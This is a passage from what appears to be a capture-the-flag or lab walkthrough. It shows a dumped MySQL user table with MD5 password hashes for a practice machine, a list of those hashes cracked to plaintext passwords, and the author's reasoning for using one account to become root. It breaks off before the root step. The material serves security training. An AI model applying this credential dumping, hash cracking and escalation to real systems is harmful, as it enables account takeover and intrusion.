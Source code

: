 ```
| leon@localhost.localdomain    | 5d93ceb70e2bf5daa84ec3d0cd2c731a |        1 | NULL                |       7 | Leon Parnetta   |                                                                          |
| julia@localhost.localdomain   | ed2539fe892d2c52c42a440354e8e3d5 |        1 | NULL                |       8 | Julia Fields    |                                                                          |
| michael@localhost.localdomain | 9c42a1346e333a770904b2a2b37fa7d3 |        0 | NULL                |       9 | Michael Saint   |                                                                          |
| bruce@localhost.localdomain   | 3a24d81c2b9d0d9aaf2f10c6c9757d4e |        0 | NULL                |      10 | Bruce Pottricks |                                                                          |
| neil@localhost.localdomain    | 4773408d5358875b3764db552a29ca61 |        0 | NULL                |      11 | Neil Felstein   |                                                                          |
| charles@localhost.localdomain | b2a97bcecbd9336b98d59d9324dae5cf |        0 | NULL                |      12 | Charles Adams   |                                                                          |
| foo@bar.com                   | 4cb9c8a8048fd02294477fcb1a41191a |        0 | NULL                |      36 |                 |                                                                          |
| test@test.com                 | 098f6bcd4621d373cade4e832627b4f6 |        0 | NULL                |     115 |                 |                                                                          |
| test@test                     | 098f6bcd4621d373cade4e832627b4f6 |        0 | NULL                |     114 | test            | test                                                                     |
| test@nowhere.com              | 098f6bcd4621d373cade4e832627b4f6 |        0 | NULL                |     113 |                 |                                                                          |
+-------------------------------+----------------------------------+----------+---------------------+---------+-----------------+--------------------------------------------------------------------------+
14 rows in set (0.00 sec)
```

Here are the passwords that I got:
```
brian	e22f07b17f98e0d9d364584ced0e3c18	md5		my2cents
john	0d9ff2a4396d6939f80ffe09b1280ee1	md5		transformersrule
alice	2146bf95e8929874fc63d54f50f1d2e3	md5		turtles77
ruby	9f80ec37f8313728ef3e2f218c79aa23	Unknown	Not found.
leon	5d93ceb70e2bf5daa84ec3d0cd2c731a	md5		qwer1234
julia	ed2539fe892d2c52c42a440354e8e3d5	md5		madrid
michael	9c42a1346e333a770904b2a2b37fa7d3	md5		somepassword
bruce	3a24d81c2b9d0d9aaf2f10c6c9757d4e	md5		LosAngelesLakers
neil	4773408d5358875b3764db552a29ca61	Unknown	Not found.
charles	b2a97bcecbd9336b98d59d9324dae5cf	md5		chuck33
```
We can see from the database that the first six users have admin priviliges. This suggests that they could also have sudo priviliges on the system. There was also a description about brian, and he was the only one who ever logged on to the server, suggesting he must be a user with sudo priviliges. This was true for the following users as well: `john, alice, ruby, leon, julia`!. I used the user `brian` to switch users to `root` and pwn the machine:
